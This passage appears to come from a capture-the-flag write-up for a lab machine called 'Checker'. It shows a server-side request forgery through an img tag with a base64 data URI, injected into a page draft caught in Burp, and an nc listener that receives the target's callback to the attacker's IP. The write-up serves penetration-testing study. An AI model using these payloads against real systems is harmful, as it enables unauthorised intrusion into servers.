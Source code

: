Now let’s create a new book and capture the request on burp intercept:

![image.png]({{ site.baseurl }}/assets/checker/image%208.png)

![image.png]({{ site.baseurl }}/assets/checker/image%209.png)

Save the book and Create a new page:

![image.png]({{ site.baseurl }}/assets/checker/image%2010.png)

And now turn intercept on before clicking save draft after editing draft:

![image.png]({{ site.baseurl }}/assets/checker/image%2011.png)

![image.png]({{ site.baseurl }}/assets/checker/image%2012.png)

In the html part, we enter our payload:

```bash
<img src='data:image/png;base64,[BASE64 HERE]'/>

echo -n "http://10.10.16.2:8001/TESTING" | base64

<img src='data:image/png;base64,aHR0cDovLzEwLjEwLjE2LjI6ODAwMS9URVNUSU5H'/>
```

And we start our listener:

```bash
nc -lnvp 8001

connect to [10.10.16.2] from (UNKNOWN) [10.10.11.56] 51216
GET /TESTING HTTP/1.1
Host: 10.10.16.2:8001
Connection: close
Accept-language: en
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36

```

It’s working. 

![image.png]({{ site.baseurl }}/assets/checker/image%2013.png)

However, we still can’t see the content of the resource we requested e.g.:

```bash
echo -n "http://10.10.16.2:8001/test.txt" | base64
aHR0cDovLzEwLjEwLjE2LjI6ODAwMS90ZXN0LnR4dA==

python3 -m http.server 8001
```

![image.png]({{ site.baseurl }}/assets/checker/image%2014.png)
